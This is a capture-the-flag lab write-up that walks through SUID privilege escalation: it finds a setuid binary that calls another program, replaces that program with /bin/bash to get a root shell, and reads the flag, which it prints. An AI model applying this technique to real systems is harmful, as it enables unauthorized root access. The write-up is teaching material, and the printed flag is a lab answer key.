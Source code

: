 # 🔬SUID

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
> * **SUID** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
    student
groups student
    student : student
```

* Check the contents of the students directory.

```bash
pwd
    /home/student
ls -al
    total 36
    drwxr-xr-x 1 student student 4096 Sep 22  2018 .
    drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
    -rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
    -r-x------ 1 root    root    8296 Sep 22  2018 greetings
    -rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

<figure><img src="../../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

> `welcome` file has the `SUID` permission applied.

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

* Observe that the welcome binary has suid bit set (or on). This means that this binary and its child processes will run with root privileges. Check the file type

```bash
file welcome
    welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

> It is an ELF binary.

* Investigate the binary. The most easy or preliminary way of doing that is to use strings command.
* Observe the greetings strings in the output of the strings command. It is possible that welcome binary is calling greetings binary. So, replace the greetings binary with some other binary (say `/bin/bash`) which should then also get executed as root.

<figure><img src="../../../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

* Delete greetings binary and then copy `/bin/bash` to its location and rename that to greetings.

```bash
rm greetings
cp /bin/bash greetings
```

* Run the `welcome` binary again.

```bash
./welcome
whoami
cd /root/
ls
cat flag
```

<figure><img src="../../../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `b92bcdc876d52108778e2d81f3b01494`
{% endhint %}


